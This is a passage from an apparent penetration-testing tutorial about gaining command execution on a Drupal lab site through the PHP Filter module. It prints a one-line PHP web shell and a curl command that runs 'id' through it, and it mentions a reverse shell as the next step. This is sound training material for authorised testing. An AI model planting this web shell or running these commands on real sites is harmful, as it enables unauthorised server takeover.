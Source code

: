 ```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://drupal-qa.inlanefreight.local/#overlay=node/add/page</p></figcaption></figure>

We also want to make sure to set `Text format` drop-down to `PHP code`. After clicking save, we will be redirected to the new page, in this example `http://drupal-qa.inlanefreight.local/node/3`. Once saved, we can either request execute commands in the browser by appending `?dcfdd5e021a869fcc6dfaef8bf31377e=id` to the end of the URL to run the `id` command or use `cURL` on the command line. From here, we could use a bash one-liner to obtain reverse shell access.

```shell-session
$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From version 8 onwards, the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default. To leverage this functionality, we would have to install the module ourselves. Since we would be changing and adding something to the client's Drupal instance, we may want to check with them first. We'd start by downloading the most recent version of the module from the Drupal website.
